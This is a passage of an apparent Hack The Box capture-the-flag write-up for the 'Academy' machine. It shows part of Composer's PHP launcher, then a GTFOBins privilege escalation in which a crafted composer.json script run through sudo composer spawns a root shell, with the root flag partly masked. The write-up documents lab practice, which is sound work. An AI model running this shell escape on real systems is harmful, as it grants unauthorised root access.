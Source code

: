 ```php
    };

    $memoryLimit = trim(ini_get('memory_limit'));
    // Increase memory_limit if it is lower than 1.5GB
    if ($memoryLimit != -1 && $memoryInBytes($memoryLimit) < 1024 * 1024 * 1536) {
        @ini_set('memory_limit', '1536M');
    }
    // Set user defined memory limit
    if ($memoryLimit = getenv('COMPOSER_MEMORY_LIMIT')) {
        @ini_set('memory_limit', $memoryLimit);
    }
    unset($memoryInBytes, $memoryLimit);
}

putenv('COMPOSER_BINARY='.realpath($_SERVER['argv'][0]));

// run the command application
$application = new Application();
$application->run();
```

![Firefox - GTFOBins - `composer` - `sudo`](./assets/screenshots/hackthebox_academy_firefox_gtfobins_composer_sudo.png)

```
mrb3n@academy:~$ TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x

[SNIP]

Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# 
```

```
# id

uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt

1be05*************************** 🚩
```
